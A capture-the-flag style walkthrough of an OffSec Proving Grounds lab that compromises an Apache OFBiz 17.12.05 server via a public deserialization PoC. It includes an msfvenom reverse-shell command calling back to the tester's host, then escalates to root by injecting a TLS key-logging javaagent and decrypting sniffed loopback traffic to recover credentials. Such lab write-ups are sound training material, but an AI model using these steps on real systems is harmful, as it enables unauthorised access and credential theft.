This lab is marked as hard on OffSec’s Proving Grounds Practice, though the community rates it as very hard.

## Enumeration

I began with nmap.
```
nmap -p- -Pn -oA nmap_alltcp -sS -T4 192.168.194.251
```



Port 22, 80, and 8443 were open.

Port 80 displayed an Apache default page, so I skipped it.

Port 8443 returned a 500 error, which seemed related to the domain name.


When I looked at the certificate, I found one domain, `gradle.pg`.


I set up the domain in `/etc/hosts`.
```shell
$ cat /etc/hosts
192.168.194.251 gradle.pg
```

After that, I visited `https://gradle.pg:8443`, that displayed a login page.
In the bottom-right corner of the page, the OFBiz version `17.12.05` was displayed.


## Initial access
After some googling, I found the [CVE](https://pentest-tools.com/vulnerabilities-exploits/apache-ofbiz-171207-arbitrary-code-execution_3123).
This CVE allows an unauthenticated attacker to execute arbitrary code.
> Apache OFBiz before 17.12.07 is susceptible to arbitrary code execution via unsafe deserialization. An attacker can modify deserialized data or code without using provided accessor functions.

Also, I found a [PoC](https://github.com/LioTree/CVE-2021-30128-EXP).
As a test, I checked if this PoC works.
The PoC didn't work with my local Java 23, but when I used Java 8, it could execute arbitrary code as shown below.


Now, it's time to get a foothold. 
I created a shell.
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.219 LPORT=80 -f elf > shell.elf
```
Then I sent the shell and executed it. As you can see in the third image, I got a shell as the `david` user.




There was `local.txt` in `david`'s home directory.



For post-exploitation, I enabled SSH login as `david`.





## Privilege Escalation

`david` has an interesting sudo privilege to run a specific `tcpdump` command.
```shell
sudo -l
```



I tried to capture traffic for `lo` network.
```
sudo /usr/sbin/tcpdump -w /tmp/test.pcap -ni lo
```

After a couple of minutes, some packets were captured.


I sent the pcap file and opened it with wireshark.


There were some TCP requests talking to port `8443` (the OFBiz application), but they were encrypted.



I did some research and found [one interesting article](https://sequentialread.com/how-to-get-a-decrypted-wireshark-packet-capture-from-a-java-application-that-is-talking-https/).
The article explains that Java applications can be instrumented with a `javaagent` to log TLS session keys. By attaching [jSSLKeyLog](https://jsslkeylog.github.io/) to the Java process, the TLS master secrets are written to a file, which can then be fed into Wireshark to decrypt the captured HTTPS traffic.

So, if `david` can change the script that runs the OFBiz application, I may be able to decrypt the traffic.
Since `david` is running the application, it's possible to modify the startup script and restart it.



I downloaded [jSSLKeyLog](https://jsslkeylog.github.io/) and sent it over with scp.



Then I added the line below to the script and restarted the application.
`-javaagent:/home/david/jSSLKeyLog.jar=/home/david/SSLKEYLOG`




After restarting the application, I captured the traffic again.



After capturing the traffic, I sent the pcap and `SSLKEYLOG` files to my machine.



After opening the pcap file with Wireshark, I set `SSLKEYLOG` as the (Pre)-Master-Secret log file in Wireshark's TLS protocol settings.


As written in the article, it logged its TLS decryption Debug information to a file. I found the login credential of the `root` user.


With the credential, I was able to login as `root`.
